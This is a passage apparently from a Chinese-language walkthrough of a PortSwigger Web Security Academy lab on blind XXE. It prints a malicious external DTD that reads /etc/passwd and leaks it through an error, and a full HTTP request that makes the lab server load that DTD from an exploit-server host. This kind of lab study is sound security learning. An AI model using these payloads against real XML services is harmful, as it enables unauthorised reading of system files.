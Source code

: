 ```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

[![](assets/1706060044-41a1624048153803eaf3cee9f8c2a73a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131950-08763606-b9af-1.png)  
在请求数据包中构造一下恶意请求

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

```bash
POST /product/stock HTTP/1.1
Host: 0a1a00ea04105efa80d2ea870040004a.web-security-academy.net
Connection: close
Content-Length: 234
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a1a00ea04105efa80d2ea870040004a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1a00ea04105efa80d2ea870040004a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=kKTi4dp2ea3n1j7g7UsayQiq3ewv1DMc

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2500d804f15e248089e9ff01d100dc.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
